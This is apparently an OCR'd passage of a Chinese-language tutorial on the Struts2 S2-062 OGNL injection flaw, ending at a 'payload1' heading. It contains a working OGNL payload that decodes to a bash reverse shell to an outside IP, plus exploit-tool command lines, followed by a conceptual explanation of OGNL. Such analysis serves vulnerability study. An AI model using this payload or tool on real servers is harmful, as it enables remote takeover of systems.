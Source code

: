 ```
(#request.map3.setBean(#request.get('map2').get('memberAccess')) == true).toString().substring(0,0) +
(#request.get('map3').put('excludedPackageNames',#@org.apache.commons.collections.BeanMap@{}.keySet()) ==
true).toString().substring(0,0) +
(#request.get('map3').put('excludedClasses',#@org.apache.commons.collections.BeanMap@{}.keySet()) ==
true).toString().substring(0,0) +
(#application.get('org.apache.tomcat.InstanceManager').newInstance('freemarker.template.utility.Execute').exec({'bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC80Ny4xMjAuMTMuMjQ5Lzc3NzcgMD4mMQ==}|{base64,-d}|{bash,-i}'}))
}
------WebKitFormBoundaryl7d1B1aGsV2wcZwF—
```

### 工具利用

```
pip3 install lxml
s2-062.py --url 47.120.13.249:8080
s2-062.py --url 47.120.13.249:8080 --cmd whoami
s2-062.py --url 47.120.13.249:8080 --cmd dir
```

# 4、漏洞原理及POC分析

## 概述

项目使用了%{}解析OGNL表达式，对用户输入 的内容进行二次解析的时候，如果没有验证， 可能导致远程代码执行 

1. 1、什么是OGNL表达式 
2. 2、OGNL表达式在Struts2中用来做什么 
3. 3、OGNL解析是怎么造成代码执行的

## OGNL是什么？

- Object-Graph Navigation Language(对象 图导航语言) 
- 一种开源的 Java 表达式语言
- 用于对数据进行访问，拥有类型转换、访问 对象方法、操作集合对象等功能

## OGNL和Struts2

参考《OGNL和Struts标签.pdf》 

1. 1、OGNL是Struts默认支持的表达式语言 
2. 2、OGNL可以取值赋值、访问类的静态方法和属性 
3. 3、访问OGNL上下文。Struts的上下文根对象： ValueStack 
4. 4、%{}用来把字符串转换成表达式 %25就是URL编码的% 
5. 5、可以在struts.xml和struts标签等地方使用OGNL 表达式

## payload1-执行命令
